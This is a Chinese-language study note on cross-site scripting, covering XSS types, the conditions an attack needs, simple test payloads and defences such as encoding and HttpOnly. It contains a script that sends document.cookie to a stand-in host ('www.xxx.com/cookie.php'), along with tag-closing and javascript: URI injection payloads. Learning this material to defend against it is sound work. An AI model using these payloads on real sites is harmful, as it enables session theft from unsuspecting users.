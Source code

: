 # XSS

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->
<!-- code_chunk_output -->

- [XSS](#xss)
    - [概述](#概述)
      - [1.XSS（cross-site scripting）](#1xsscross-site-scripting)
      - [2.XSS类型](#2xss类型)
        - [（1）stored XSS attacks（最常见）](#1stored-xss-attacks最常见)
        - [（2）reflected XSS attacks](#2reflected-xss-attacks)
        - [（3）DOM XSS attacks（少见）](#3dom-xss-attacks少见)
      - [3.实现XSS攻击条件](#3实现xss攻击条件)
      - [4.如何利用XSS攻击](#4如何利用xss攻击)
    - [攻击](#攻击)
      - [1.寻找可攻击的输入点](#1寻找可攻击的输入点)
        - [（1）找到一个输入点](#1找到一个输入点)
        - [（2）测试输入点](#2测试输入点)
      - [2.简单的攻击测试](#2简单的攻击测试)
        - [（1）基本测试](#1基本测试)
        - [（2）闭合标签](#2闭合标签)
        - [（3）多标签测试](#3多标签测试)
    - [防护](#防护)
      - [1.XSS Filter](#1xss-filter)
      - [2.实体化编码](#2实体化编码)
        - [（1）html编码](#1html编码)
        - [（2）javascript编码](#2javascript编码)
      - [3.HttpOnly](#3httponly)

<!-- /code_chunk_output -->

### 概述

#### 1.XSS（cross-site scripting）
跨站脚本攻击，通过提交数据的方式，向网页中注入javascript脚本，然后脚本会在客户端执行
重点是在html中插入javascript脚本，并让用户执行

#### 2.XSS类型

##### （1）stored XSS attacks（最常见）
用户的输入会被存储在目标服务器上，比如：留言、评论等
当有其他用户浏览这些数据时，就会执行注入的脚本

##### （2）reflected XSS attacks
直接返回用户的输入，不会存储，比如：错误信息
所以攻击者需要构建一个url（该url会注入javascript脚本），诱骗用户点击该url，从而使得脚本能够在用户端执行

##### （3）DOM XSS attacks（少见）
注入的脚本不会传输到服务端，这是与前两种的本质区别

#### 3.实现XSS攻击条件
* 有可控的输入点
* 输入信息可以在用户的浏览器中显示
* 能够输入可执行的javascript脚本
  * 需要输入时，未对数据进行过滤、编码等
* 用户访问时，浏览器能够将这些输入信息解析为javascript脚本，并且执行

#### 4.如何利用XSS攻击
* 窃取cookie
```html
<script>
Document.location='http://www.xxx.com/cookie.php?cookie='+document.cookie;
</script>
```

* 网络钓鱼
利用正规网站的XSS漏洞，构建一个url，然后该url中插入脚本
当用户点击该url中，会打开该正规网站，并弹出一个小窗口（该小窗口就是插入的脚本），
让用户输入账号密码，从而窃取到用户的账号密码
</br>
* 窃取客户端信息
可以注入监听脚本，对于用户是无感知的，但是可以记录用户按键的信息，然后发送给攻击者

***

### 攻击

#### 1.寻找可攻击的输入点

##### （1）找到一个输入点

##### （2）测试输入点
输入正常的信息，输入后，查看源码，查看输入的信息显示在哪里了
然后查看该信息所处的上下文（即是不是在某个标签内等等）
从而决定如何实施XSS攻击

#### 2.简单的攻击测试
根据上下文嵌入测试脚本

##### （1）基本测试
当所处上下文可以插入脚本
```html
<script>alert("test")</script>
```

##### （2）闭合标签
当所处上下文只允许输入文本信息
* 上下文
```html
<textarea>用户输入</textarea>
```

* 用户输入
```html
</textarea><script>alert("test")</script>
<!-- 首先需要闭合textarea标签，否则直接输入脚本标签，会被当做文本处理，不会被执行 -->
```

* 防护：黑名单过滤
过滤特定的关键词，比如过滤掉`<script>`这个关键词

##### （3）多标签测试
能触发脚本执行的标签不只有`<script>`，还有其他很多
```html
<a href="javascript:alert("test")">
<IMG SRC="javascript:alert("test")">
```

***
### 防护

#### 1.XSS Filter
匹配危险字符（比如：`<script>`），替换成安全字符，比如空格

* 浏览器的XSS Filter只能防止 反射型XSS，无法防止其他类型的XSS（比如存储型，浏览器无法区分哪些是恶意的脚本）
  * 发送请求时，过滤请求中的数据
  * 现在浏览器都弃用XSS Filter
* 服务端的XSS Filter可以防止 反射型XSS和存储型
  * 返回响应时，过滤渲染模板时用的数据

#### 2.实体化编码
对用户的输入进行编码，在服务端进行，严格限定了数据就是数据，避免数据被当成代码执行

##### （1）html编码
当浏览器渲染html时，看到编码后的内容，会显示成相应的字符
|编码前|编码后|显示|
|-|-|-|
|&|`&amp;`|&amp;|
|<|`&lt;`|&lt;|
|>|`&gt;`|&gt;|
|"|`&quot;`|&quot;|
|'|`&#x27;` 或者 `&apos;`|&#x27; 或者 &apos;|
|/|`&#x2F;`|&#x2F;|

##### （2）javascript编码
当用户输入的信息需要被嵌入到javascript代码块中，利用javascript编码，防止用户的输入的内容被执行
|编码前|编码后|显示|
|-|-|-|
|'|`\'`|\'|
|"|`\"`|\"|

#### 3.HttpOnly
给cookie设置一个属性，那么浏览器就会禁止javascript读取这个cookie，从而避免了cookie被窃取
* 没有广泛应用，因为从业务便利性的角度考虑，比如网站做广告推荐时，会利用js脚本读取用户cookie以作精确推广
